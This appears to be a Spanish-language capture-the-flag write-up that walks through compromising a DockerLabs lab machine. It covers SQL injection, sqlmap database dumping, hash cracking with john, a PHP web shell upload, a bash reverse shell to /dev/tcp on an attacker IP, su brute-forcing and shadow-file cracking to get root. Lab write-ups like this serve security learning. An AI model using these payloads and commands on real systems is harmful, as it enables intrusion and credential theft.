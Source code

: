 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![image](https://github.com/user-attachments/assets/dba385cc-25fd-47ed-8789-fb7a1b457b55)


dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![image](https://github.com/user-attachments/assets/7ef3f704-d534-4c2f-9331-bbeffbfb11e3)

voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![image](https://github.com/user-attachments/assets/1a34f523-8919-41b2-bd7e-7af4cda97399)

ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![image](https://github.com/user-attachments/assets/13406494-f292-40af-aac2-0c5114932387)

creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![image](https://github.com/user-attachments/assets/61bfdc72-9ddf-4c67-b2ce-ef75e2229252)

cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![image](https://github.com/user-attachments/assets/dbdd29ef-b39f-4204-8cab-cb6743b931fb)


creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![[subida1.png]]

después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![[comprobacion.png]]
ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![[dockerlabs/medio/apolos/conexion1.png]]
entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![[diccionario.png]]

nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![[contraseña1.png]]
nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
